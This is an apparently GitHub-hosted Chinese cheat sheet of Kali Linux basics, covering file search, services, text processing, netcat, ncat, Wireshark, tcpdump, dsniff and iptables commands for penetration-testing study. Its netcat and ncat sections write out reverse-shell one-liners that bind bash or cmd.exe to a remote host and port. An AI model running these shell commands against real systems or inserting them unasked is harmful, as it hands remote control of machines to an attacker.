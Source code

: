 # [](#kali基本操作)Kali基本操作

* 设置目标靶机IP地址为`$ip` 系统环境变量  
  `export ip=192.168.1.100`

* 查找本地文件  
  `locate sbd.exe`

* 在`$PATH` 环境变量中查找  
  `which sbd`

* 通过文件名查找文件 
  `find / -name sbd\*`

* 查看网络连接  
  `netstat -lntp`

* 更改Kali密码  
  `passwd`

* 查看apache服务是否开启了监听  
  `netstat -antp |grep apache`

* 开启服务  
  `systemctl start ssh`

  `systemctl start apache2`

* 设置开机启动服务  
  `systemctl enable ssh`

* 停止服务  
  `systemctl stop ssh`

* 解压gz文件  
  `gunzip access.log.gz`

* 解压tar.gz文件  
  `tar -xzvf file.tar.gz`

* 搜索history命令  
  `history | grep phrase_to_search_for`

* 下载网页  
  `wget http://www.cisco.com`

* 打开网页  
  `curl http://www.cisco.com`

* 字符串常用命令

  * 统计文件行数  
    `wc -l index.html`

  * 获得文件头部和结尾  
    `head index.html`

    `tail index.html`

  * 提取包含某字符串的所有行  
    `grep "href=" index.html`

  * 使用分隔符筛选字符串后排序  
    `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

  * 用Grep和正则匹配文件并输出  
    `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`

  * 使用bash循环提取host后面的IP信息  
    `for url in $(cat list.txt); do host $url; done`

  * 从日志文件中提取所有IP地址并按频率排序  
    `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

* 解密命令（Kali环境下）

  * Base64解密

    `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

  * Hex解密  
    `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

* Netcat常用命令

  * 连接POP3服务器  
    `nc -nv $ip 110`

  * 监听TCP/UDP端口  
    `nc -nlvp 4444`

  * 连接端口  
    `nc -nv $ip 4444`

  * 发送文件  
    `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

  * 接收文件  
    `nc -nlvp 4444 > incoming.exe`

  * 部分操作系统中使用nc.traditional代替nc命令

        whereis nc
        nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz
        
        /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

  * 在windows系统上创建反弹shell  
    `nc.exe -nlvp 4444 -e cmd.exe`

    或者

    `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

  * 在Linux系统上创建反弹shell  
    `nc -nv $ip 4444 -e /bin/bash`

  * 获得banner信息

    `echo "" | nc -nv -w1 <IP Address> <Ports>`

* Ncat是Nmap项目中的nc升级版

  *   在windows系统上创建ssl加密的反弹shell  
      `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

  *   使用ssl加密监听本地4444端口  
      `ncat -v $ip 4444 --ssl`

* Wireshark常用命令

  * 只查看SMTP和ICMP流量

    `tcp.port eq 25 or icmp`

  * 只查看192.168.x.x网段的流量

    `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`

  * 通过网络协议过滤并剔除不需要的IP地址

    `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`

  * 等号的用法

    `ip.addr == xxx.xxx.xxx.xxx`

    `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx`

    `ip.addr != xxx.xxx.xxx.xxx`

    `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

* Tcpdump常用命令

  *   显示pcap文件   
      `tcpdump -r passwordz.pcap`

  *   提取ip地址并过滤排序  
      `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

  *   抓取80端口数据包  
      `tcpdump tcp port 80 -w output.pcap -i eth0`

  *   检测TCP数据包中的ACK和PSH标志位  
      `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

* Dsniff常用命令

  *   使用telnet协议显示pcap文件  
      `dsniff -p ch2.pcap`

* IPTables常用命令

  * 拒绝除本地换回口的通信

    `iptables -A INPUT -p tcp --destination-port 13327 ! -d $ip -j DROP`

    `iptables -A INPUT -p tcp --destination-port 9991 ! -d $ip -j DROP`

  * 清除全部IPTables规则

    ```bash
    iptables -P INPUT ACCEPT
    iptables -P FORWARD ACCEPT
    iptables -P OUTPUT ACCEPT
    iptables -t nat -F
    iptables -t mangle -F
    iptables -F
    iptables -X
    iptables -t raw -F iptables -t raw -X
    ```

